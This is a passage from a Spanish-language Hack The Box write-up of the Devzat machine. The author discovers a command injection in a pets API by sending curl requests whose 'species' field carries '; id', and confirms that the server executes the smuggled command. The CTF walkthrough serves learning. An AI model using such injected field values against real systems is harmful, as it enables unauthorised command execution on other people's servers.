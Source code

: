 Bieeen, también lo envía, pero `characteristics` no:

```bash
❱ curl -s -d '{"name":"hola","species":"hola","characteristics":"hola"}' http://pets.devzat.htb/api/pet > /dev/null ; curl -s http://pets.devzat.htb/api/pet | jq
...
  },
  {
    "name": "hola",
    "species": "hola",
    "characteristics": "exit status 1"
  }
]
```

Así que juguemos inicialmente con `species`...

## Encontramos extraño Command Injection [📌](#pets-command-injection) {#pets-command-injection}

Teniendo en mente que quizás exista un [command injection](https://owasp.org/www-community/attacks/Command_Injection) probamos el clásico `;` para decirle que después del comando que esté ejecutando la web (si es que nuestra teoría es real) haga lo que sea que le pongamos (otro comando claramente), por ejemplo `id`:

```bash
❱ curl -s -d '{"name":"hola","species":"; id"}' http://pets.devzat.htb/api/pet > /dev/null ; curl -s http://pets.devzat.htb/api/pet | jq
```

Ejecutamos yyyy:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/devzat/389bash_curl_petsAPI_commandInjection_id.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

EJEJEEEEEEEEY, el comando `id` se ha ejecutadoooooooOOOOOOOOOOO (:D El tema es que el sistema intenta buscar dentro del directorio `characteristics` suponemos que algo relacionado con `species`, como no lo encuentra devuelve el error `1`:

```bash
# EJEMPLO
❱ ls -la
...
drwxr-xr-x 1 lanz lanz  46 feb 22 25:25 content
❱ cat content/
'content/' is a directory.
❱ echo $?   # Así vemos el codigo de estado del comando anterior
1
❱ cat content/; id   # Y así se genera el command injection
'content/' is a directory.
uid=1000(lanz) gid=1000(lanz) grupos=1000(lanz)
# EJEMPLO
```

Y pues finaliza ejecutando la otra instrucción: `id` :D
